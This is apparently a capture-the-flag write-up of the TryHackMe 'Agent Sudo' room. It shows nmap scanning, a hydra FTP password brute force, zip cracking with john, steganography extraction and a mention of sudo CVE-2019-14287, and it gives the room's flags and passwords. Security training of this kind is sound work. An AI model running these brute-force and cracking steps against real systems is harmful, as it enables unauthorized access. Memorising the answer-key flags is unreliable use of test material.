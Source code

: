 # Agent Sudo

You found a secret server located under the deep sea. Your task is to hack inside the server and reveal the truth.

[Agent Sudo](https://tryhackme.com/room/agentsudoctf)

## Topic's

- Network Enumeration
- Web Header Manipulation
- Brute Forcing (FTP)
- Brute Forcing (Zip)
- Steganography
- Cryptography
  - Base64
- OSINT
- CVE-2019-14287 - Sudo < 1.8.28

## Appendix archive

Password: `1 kn0w 1 5h0uldn'7!`

## Author note

Welcome to another THM exclusive CTF room. Your task is simple, capture the flags just like the other CTF room. Have Fun!

If you are stuck inside the black hole, post on the forum or ask in the TryHackMe discord.

1. Deploy the machine

`No answer needed`

## Enumerate

Enumerate the machine and get all the important information

1. How many open ports?

```
kali@kali:~/CTFs/tryhackme/Agent Sudo$ sudo nmap -A -Pn -sC -sV -O 10.10.34.31
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-04 13:28 CEST
Nmap scan report for 10.10.34.31
Host is up (0.053s latency).
Not shown: 997 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 ef:1f:5d:04:d4:77:95:06:60:72:ec:f0:58:f2:cc:07 (RSA)
|   256 5e:02:d1:9a:c4:e7:43:06:62:c1:9e:25:84:8a:e7:ea (ECDSA)
|_  256 2d:00:5c:b9:fd:a8:c8:d8:80:e3:92:4f:8b:4f:18:e2 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Annoucement
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.80%E=4%D=10/4%OT=21%CT=1%CU=35221%PV=Y%DS=2%DC=T%G=Y%TM=5F79B1F
OS:E%P=x86_64-pc-linux-gnu)SEQ(SP=105%GCD=1%ISR=10C%TI=Z%CI=I%II=I%TS=A)SEQ
OS:(SP=105%GCD=1%ISR=10C%TI=Z%CI=I%TS=A)SEQ(SP=105%GCD=1%ISR=10C%TI=Z%II=I%
OS:TS=A)OPS(O1=M508ST11NW6%O2=M508ST11NW6%O3=M508NNT11NW6%O4=M508ST11NW6%O5
OS:=M508ST11NW6%O6=M508ST11)WIN(W1=68DF%W2=68DF%W3=68DF%W4=68DF%W5=68DF%W6=
OS:68DF)ECN(R=Y%DF=Y%T=40%W=6903%O=M508NNSNW6%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%
OS:A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0
OS:%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S
OS:=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R
OS:=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N
OS:%T=40%CD=S)

Network Distance: 2 hops
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 554/tcp)
HOP RTT      ADDRESS
1   36.49 ms 10.8.0.1
2   36.67 ms 10.10.34.31

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 28.71 seconds
```

`3`

2. How you redirect yourself to a secret page?

- [http://10.10.34.31/](http://10.10.34.31/)

```
Dear agents,

Use your own codename as user-agent to access the site.

From,
Agent R
```

`user-agent`

1. What is the agent name?

```
kali@kali:~/CTFs/tryhackme/Agent Sudo$ curl -A "C" -L 10.10.34.31
Attention chris, <br><br>

Do you still remember our deal? Please tell agent J about the stuff ASAP. Also, change your god damn password, is weak! <br><br>

From,<br>
Agent R
```

`chris`

## Hash cracking and brute-force

Done enumerate the machine? Time to brute your way out.

1. FTP password

```
kali@kali:~/CTFs/tryhackme/Agent Sudo$ hydra -l chris -P /usr/share/wordlists/rockyou.txt 10.10.34.31 ftp
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-10-04 13:36:32
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ftp://10.10.34.31:21/
[STATUS] 156.00 tries/min, 156 tries in 00:01h, 14344243 to do in 1532:31h, 16 active
[21][ftp] host: 10.10.34.31   login: chris   password: crystal
```

2. Zip file password

```
kali@kali:~/CTFs/tryhackme/Agent Sudo$ binwalk -e cutie.png

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             PNG image, 528 x 528, 8-bit colormap, non-interlaced
869           0x365           Zlib compressed data, best compression
34562         0x8702          Zip archive data, encrypted compressed size: 98, uncompressed size: 86, name: To_agentR.txt
34820         0x8804          End of Zip archive, footer length: 22
```

```
kali@kali:~/CTFs/tryhackme/Agent Sudo$ zip2john _cutie.png.extracted/8702.zip > zip.hash
ver 81.9 _cutie.png.extracted/8702.zip/To_agentR.txt is not encrypted, or stored with non-handled compression type
kali@kali:~/CTFs/tryhackme/Agent Sudo$ john zip.hash
Using default input encoding: UTF-8
Loaded 1 password hash (ZIP, WinZip [PBKDF2-SHA1 256/256 AVX2 8x])
Will run 2 OpenMP threads
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
Almost done: Processing the remaining buffered candidate passwords, if any.
Warning: Only 7 candidates buffered for the current salt, minimum 16 needed for performance.
Proceeding with wordlist:/usr/share/john/password.lst, rules:Wordlist
alien            (8702.zip/To_agentR.txt)
1g 0:00:00:01 DONE 2/3 (2020-10-04 13:42) 0.6993g/s 37134p/s 37134c/s 37134C/s 123456..Peter
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

3. steg password

```
kali@kali:~/CTFs/tryhackme/Agent Sudo$ echo -n 'QXJlYTUx' | base64 -d
Area51
```

4. Who is the other agent (in full name)?

`james`

5. SSH password

```
kali@kali:~/CTFs/tryhackme/Agent Sudo$ cat message.txt
Hi james,

Glad you find this message. Your login password is hackerrules!

Don't ask me why the password look cheesy, ask agent R who set this password for you.

Your buddy,
chris
```

`hackerrules!`

## Capture the user flag

You know the drill.

1. What is the user flag?

```
james@agent-sudo:~$ cat user_flag.txt
b03d975e8c92a7c04146cfa7a5a313c7
```

2. What is the incident of the photo called?

```
kali@kali:~/CTFs/tryhackme/Agent Sudo$ scp james@10.10.34.31:Alien_autospy.jpg ./
james@10.10.34.31's password:
Alien_autospy.jpg                                            100%   41KB 358.6KB/s   00:00
kali@kali:~/CTFs/tryhackme/Agent Sudo$
```

`roswell alien autopsy`

## Privilege escalation

Enough with the extraordinary stuff? Time to get real.

1. CVE number for the escalation (Format: CVE-xxxx-xxxx)

`CVE-2019-14287`

2. What is the root flag?

```
root@agent-sudo:/root# cat root.txt
To Mr.hacker,

Congratulation on rooting this box. This box was designed for TryHackMe. Tips, always update your machine.

Your flag is
b53a02f55b57d4439e3341834d70c062

By,
DesKel a.k.a Agent R
```

`b53a02f55b57d4439e3341834d70c062`

3. (Bonus) Who is Agent R?

`DesKel`
